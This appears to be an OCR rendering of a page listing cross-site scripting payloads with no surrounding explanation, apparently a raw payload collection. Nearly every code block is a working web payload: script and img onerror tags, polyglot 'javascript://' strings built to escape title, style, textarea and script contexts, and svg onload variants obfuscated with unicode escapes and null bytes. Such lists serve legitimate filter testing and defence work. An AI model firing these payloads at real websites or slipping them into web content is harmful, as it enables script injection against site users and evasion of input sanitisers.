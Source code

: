 ```
<script>alert(1)</script>">
```
```
<img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'">
```
```
<img src="http://i.imgur.com/P8mL8.jpg">
```
```
javascript://'/</title></style></textarea></script>--><p" 
onclick=alert()//>*/alert()/*
```
```
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
```
```
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
```
```
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
```
```
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
```
```
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
```
```
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
```
```
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
```
```
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
```
```
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
```
```
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
```
```
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
```
```
<svg%0Ao%00nload=%09((pro\u006dpt))()//
```
```
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```
```
javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/-->&lt;svg/onload=/*<html/*/onmouseover=alert()//>
```
```
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```
```
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template>&lt;svg/onload='/*--><html */ onmouseover=alert()//'>`
```
